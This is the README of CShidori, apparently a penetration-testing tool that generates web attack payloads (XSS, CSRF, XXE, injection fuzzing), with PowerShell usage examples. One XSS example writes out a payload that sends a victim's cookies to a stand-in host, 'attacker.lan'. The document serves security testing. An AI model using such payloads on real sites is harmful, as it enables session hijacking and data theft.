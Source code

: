 # CShidori

Web payloads generator

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## References

OWASP Web Application Security Testing Guide: [07-Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)

## Payloads generation

- Fuzzing list
- XSS
- JSON
- XML
- GET
- CSRF
- XXE
- Mutation
- Encoding

## Exemples

### Combine a wordlist with Chidori to test a specific parameter:

```powershell
gc wordlist.txt |%{ .\CShidori.exe xss "$_" }
gc wordlist.txt |%{ .\CShidori.exe mut 5 "$_" }
```

### Generate get/post requests to tests

```powershell
.\CShidori.exe bc |%{ .\CShidori.exe get "?bar=foo&foo=bar" $_ }
.\CShidori.exe bc |%{ .\CShidori.exe json request.json $_ }
.\CShidori.exe bc |%{ .\CShidori.exe xml request.xml $_ }  
```

### Then send generated payloads with your usual tool

exemple with Ffuf through Burp
```powershell
.\CShidori.exe bc > list ; .\ffuf.exe -u https://target/FUZZ -w list:FUZZ -replay-proxy http://127.0.0.1:8080
```

## Usage

### XSS / Injections

```powershell
.\CShidori.exe xss 'document.location=\"https://attacker.lan?c=\"+document.cookie'
```

### JSON

```powershell
.\CShidori.exe json ..\testing\test.json "'"
```

### XML

```powershell
.\CShidori.exe xml ..\testing\exemple.xml "'"
```

### GET

```powershell
.\CShidori.exe get "?bar=foo&foo=bar" "'"
```

### CSRF

```powershell
.\CShidori.exe csrf post http://target.lan "name1=value1&name2=value2"
.\CShidori.exe csrf get http://target.lan "name1=value1&name2=value2"
```

### XXE

```powershell
.\CShidori.exe xxe file
.\CShidori.exe xxe call 
.\CShidori.exe xxe all
```

### Mutation

```powershell
.\CShidori.exe mut 5 test
```

### Encode

```powershell
.\CShidori.exe enc "<script>alert(1)</script>"
```


## Miscellaneous

### CShidori-Spring.ps1

Security hotspots, endpoints, parameters and wsdl grabber from Spring projects

```powershell
. .\Spring-parser.ps1
Get-SpringArtefact -source .\project\repository -output .
```

### SOAP & XSD

Removed since you can perform it with Visual Studio:
- Merge XSD in WSDL
- Right click on the project and select "Add Service Reference" -> "WCF" -> "enter localPath"
